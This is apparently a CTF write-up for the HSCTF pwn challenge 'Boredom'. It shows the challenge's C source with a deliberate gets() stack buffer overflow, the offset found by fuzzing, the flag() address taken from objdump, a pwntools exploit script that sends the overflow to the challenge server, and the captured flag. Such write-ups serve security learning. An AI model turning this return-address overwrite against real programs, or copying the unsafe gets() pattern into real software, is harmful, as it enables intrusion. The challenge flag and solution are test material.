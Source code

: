 # Boredom

## Challenge

"Keith is bored and stuck at home. Give him some things to do.

Connect at nc pwn.hsctf.com 5002.

Note, if you're having trouble getting it to work remotely

check your offset, the offset is slightly different on the remote server
the addresses are still the same"

You can download the problem files here [boredom](boredom) [boredom.c](boredom.c)

## Process

I looked within the .c file for anything interesting.

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <signal.h>

void setup() {
  puts("I'm currently bored out of my mind. Give me something to do!");
  setvbuf(stdin, NULL, _IONBF, NULL);
  setvbuf(stdout, NULL, _IONBF, NULL);
}

void flag() {
  FILE *f = fopen("flag.txt", "r");
  char buf[50];
  if (f == NULL) {
    puts("You're running this locally or I can't access the flag file for some reason.");
    puts("If this occurs on the remote, ping @PMP#5728 on discord server.");
    exit(1);
  }
  fgets(buf, 50, f);
  printf("Hey, that's a neat idea. Here's a flag for your trouble: %s\n",
    buf);
  puts("Now go away.");
  exit(42);
}

int main() {
  char toDo[200];
  setup();

  printf("Give me something to do: ");
  gets(toDo);
  puts("Ehhhhh, maybe later.");
  return 0;
}
```

I noticed this line which is vulnerable to a buffer overflow attack. I also noticed that I want to jump into the flag() function whichc never gets called naturally.

```
gets(toDo);
```

I supplyed the given elf file with more and more characters in order to determine the size of the buffer. At 216 characters the program segfaulted.

![Capture0.JPG](Capture0.JPG)

To find the address of the function flag(), I ran an object dump on the given elf file. You can look at the entire dump here [dump.txt](dump.txt).

```
$ objdump -d boredom > dump.txt
```

Through the dump I found the address of the function flag(), which is 0x00000000004011d5

```
00000000004011d5 <flag>:
  4011d5:	55                   	push   %rbp
  4011d6:	48 89 e5             	mov    %rsp,%rbp
  4011d9:	48 83 ec 40          	sub    $0x40,%rsp
  4011dd:	48 8d 35 60 0e 00 00 	lea    0xe60(%rip),%rsi        # 402044 <_IO_stdin_used+0x44>
  4011e4:	48 8d 3d 5b 0e 00 00 	lea    0xe5b(%rip),%rdi        # 402046 <_IO_stdin_used+0x46>
```

I then wrote and ran [this](payloader.py) python script to perform the bufferoverflow attack and obtained the flag.

```
from pwn import * 
connection = remote('pwn.hsctf.com', 5002)
#through fuzzing found buffer
offset = 208
#through objdump -d we found the address of flag() as 00000000004011d5 and know the machine is 64 bit
address = p64(0x000004011d5)
#perform the bufferoverflow itself
connection.sendline('a'*offset + address)
connection.interactive()
```

![Capture.JPG](Capture.JPG)

The flag is flag{7h3_k3y_l0n3l1n355_57r1k35_0cff9132}